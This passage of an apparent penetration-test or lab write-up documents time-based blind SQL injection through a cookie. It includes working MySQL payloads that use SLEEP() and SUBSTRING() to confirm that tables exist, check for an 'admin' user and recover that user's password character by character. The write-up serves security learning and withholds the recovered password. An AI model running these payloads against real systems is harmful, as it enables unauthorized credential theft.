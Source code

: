 
### 3. Time-based verification

- Payload:

```sql
1' AND SLEEP(5) -- -
```

→ Delay confirms execution of `SLEEP()`.

---

### 4. Check for table `users`

- `user`: no delay → does not exist  
- `users`: delay → ✅ exists

---

### 5. Column checks

- `user` → delay → ✅ exists  
- `password` → delay → ✅ exists

---

### 6. Check for `admin` user

```sql
1' AND IF((SELECT COUNT(*) FROM users WHERE user='admin')>0, SLEEP(5), 0) #
```

→ Delay confirms user `admin` exists.

---

### 7. Password extraction

- Payload (first character test):

```sql
1' AND IF(SUBSTRING((SELECT password FROM users WHERE user='admin'),1,1)='a', SLEEP(5), 0) #
```

- Repeated character-based extraction revealed full password.
- ⚠️ DB was not case-sensitive.

> ⚠️ Extracted password omitted for ethical reasons.

---

## Final thoughts

This test demonstrates that even cookies can become dangerous injection vectors when input is not sanitized.  
The vulnerability allowed complete password extraction despite UI restrictions.

---